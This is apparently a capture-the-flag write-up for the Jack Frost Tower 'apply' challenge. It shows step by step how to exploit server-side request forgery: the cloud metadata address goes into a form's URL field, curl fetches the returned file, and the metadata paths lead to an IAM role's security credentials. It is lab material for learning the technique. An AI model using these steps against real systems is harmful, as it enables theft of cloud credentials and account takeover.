 # Goal
https://apply.jackfrosttower.com/
SSRF to access IMDS SecretAccessKey

# Hint

https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/instancedata-data-retrieval.html

# How

Go to the apply webpage

Fill in the form with random data, and in the URL to Public NLBI use : 
http://169.254.169.254

It will return a test.jpg but the jpg contains errors so isn't displayble
Curl it using : 

curl https://apply.jackfrosttower.com/images/test.jpg
And it return latest

Continue using http://169.254.169.254/latest
Then http://169.254.169.254/latest/meta-data
And finaly http://169.254.169.254/latest/meta-data/iam/security-credentials/jf-deploy-role 


